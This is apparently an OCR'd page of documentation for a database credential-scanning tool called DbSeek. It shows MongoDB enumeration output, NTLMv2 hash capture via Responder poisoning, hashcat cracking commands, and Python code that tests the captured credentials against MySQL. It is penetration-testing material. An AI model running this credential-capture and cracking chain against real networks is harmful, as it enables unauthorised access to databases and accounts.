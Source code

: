 **MongoDB Command**: `client.list_database_names()`

**Returns**:
```
admin
config
local
app_database
user_data
analytics
```

**System Databases**:
- `admin`: Administrative database
- `config`: Sharding configuration
- `local`: Local server data

### Responder Integration

**Workflow**: Capture credentials via LLMNR/NBT-NS poisoning → Test immediately with DbSeek

**Responder Credential Capture**:
```
[MSSQL] NTLMv2-SSP Hash Captured
User: DOMAIN\sqlservice
Hash: sqlservice::DOMAIN:1122334455667788:ABC123...
```

**Hash Cracking** (if needed):
```bash
hashcat -m 5600 hash.txt rockyou.txt
# Result: sqlservice:SQLService2023!
```

**DbSeek Testing**:
```bash
./dbseek.py -u sqlservice -p SQLService2023! -v -e
```

**Implementation**:
```python
def scan_host(ip: str, timeout: int = 2, test_creds: bool = False, 
              custom_username: Optional[str] = None, custom_password: Optional[str] = None,
              enumerate_dbs: bool = False) -> Dict:
    """
    Args:
        custom_username: Custom username to test (e.g., from Responder)
        custom_password: Custom password to test (e.g., from Responder)
    """
    
    # Try custom credentials FIRST (before defaults)
    if custom_username and custom_password:
        success, info = test_mysql_access(ip, port, custom_username, custom_password, timeout)
        if success:
            service_info['default_creds_work'] = True
            service_info['working_creds'] = {'username': custom_username, 'password': custom_password}
            result['default_creds'].append({
                'service': 'MySQL',
                'username': custom_username,
                'password': custom_password,
                'source': 'custom'  # Mark as custom credential
            })
            result['vulnerable'].append(f"MySQL custom credentials work: {custom_username}/{custom_password}")
```
